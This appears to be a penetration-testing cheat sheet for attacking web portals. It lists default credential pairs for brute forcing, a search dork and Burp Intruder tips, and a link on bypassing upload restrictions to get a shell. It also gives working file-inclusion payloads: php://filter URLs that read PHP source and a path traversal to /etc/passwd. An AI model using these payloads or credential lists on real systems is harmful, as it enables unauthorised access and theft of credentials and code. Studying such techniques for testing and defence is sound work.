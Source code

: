 
--------------------------------------------------------------------------

## Web Portals

- ### Test Default passwords
  - Google documentation for default passwords and test them:

	site:webapplication.com password

- ### Construct wordlist

  - Crawl/build wordlist from entire site with cewl
  - Include Default/weak logins
      admin admin
      admin password
      admin <empty_string>
      admin nameofservice
      root root
      root admin
      root password
      root nameofservice
      <username_> password
      <username_> admin
      <username_> username
      <username_> nameofservice

- ### Brute force with Burp Suite Intruder
    https://portswigger.net/burp/documentation/desktop/tools/intruder
-   Check both http response codes and response lengths for unusual responses to identify   successful logins
-   Recommended wordlist: 

--------------------------------------------------------------------------

## Bypassing File Upload Restrictions
https://null-byte.wonderhowto.com/how-to/bypass-file-upload-restrictions-web-apps-get-shell-0323454/

--------------------------------------------------------------------------

## View PHP source

- php://filter/convert.base64-encode/resource=<php_file_path>
  Ex:
	
	  http://192.168.152.58/image.php?img=php://filter/convert.base64-encode/resource=/var/www/html/image.php

- php://filter/convert.base64-encode/resource=/var/www/html/db.php
  Ex: 
      
	  http://vulnerable-website/file.php?file=../../../../etc/passwd
